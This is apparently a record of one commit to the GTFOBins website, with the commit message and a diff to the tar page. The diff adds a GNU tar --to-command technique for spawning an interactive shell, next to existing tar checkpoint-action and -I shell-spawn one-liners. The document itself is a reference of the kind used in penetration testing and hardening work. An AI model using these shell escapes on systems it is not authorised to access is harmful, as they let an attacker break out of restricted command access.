

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/tar.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add --to-command interactive shell to tar
Close #27

```diff
--- a/_gtfobins/tar.md
+++ b/_gtfobins/tar.md
@@ -4,6 +4,13 @@ functions:
     - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
     - description: This only works for GNU tar.
       code: tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
+    - description: This only works for GNU tar. It can be useful when only a limited command argument injection is available.
+      code: |
+        TF=$(mktemp)
+        echo '/bin/sh 0<&1' > "$TF"
+        tar cf "$TF.tar" "$TF"
+        tar xf "$TF.tar" --to-command sh
+        rm "$TF"*
   file-write:
     - description: This only works for GNU tar.
       code: |
```
